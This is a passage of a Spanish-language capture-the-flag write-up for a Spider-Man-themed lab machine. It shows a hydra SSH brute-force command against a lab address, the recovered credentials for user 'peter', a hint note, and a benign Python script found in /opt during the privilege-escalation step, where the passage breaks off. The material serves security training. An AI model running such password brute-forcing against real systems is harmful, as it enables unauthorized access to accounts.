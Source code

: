 Pero nada más, si probamos a hacer fuerza bruta con esos usuarios y contraseñas a ssh, conseguimos las credenciales de peter:

```
hydra -L users.txt -P password.txt ssh://172.17.0.2 

[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: peter   password: sp1der
```

Ya tenemos acceso por ssh con el usuario peter.

Una vez conectados como peter por ssh, en su home vemos una nota:

```
peter@dd16c95ca529:~$ ls
nota.txt
peter@dd16c95ca529:~$ cat nota.txt 
Hay un enemigo más internamente en esta máquina... Hay que derrotarlo
```

Puede ser una pista para elevar privilegios, ya que no hay sudo -l, ni SUID que podamos explotar

ESCALADA DE PRIVILEGIOS

Si vamos a la carpeta /opt, vemos un script, en el cual no tenemos permisos ni de escritura ni de ejecución solo de lectura, y vemos el siguiente script con este contenido:

```
#!/usr/bin/env python3
# spidey_run.py - Spider-Man Python Lab

import os
import sys
import json
import math

def web_swing():
    print("🕷️ Spider-Man se balancea por la ciudad.")
    print("Explorando los tejados y vigilando la ciudad...")

def run_tasks():
    print("🕸️ Ejecutando tareas del día...")
    print("Saltos calculados:", math.sqrt(225))
    data = {"hero": "Spider-Man", "city": "New York"}
    print("Registro de datos:", json.dumps(data))

def fight_villains():
    villains = ["Green Goblin", "Doctor Octopus", "Venom"]
    print("Villanos en la ciudad:", ", ".join(villains))
    for v in villains:
        print(f"🕷️ Enfrentando a {v}...")

if __name__ == "__main__":
    web_swing()
    run_tasks()
    fight_villains()
    print("✅ Spider-Man ha terminado su ronda.")
```
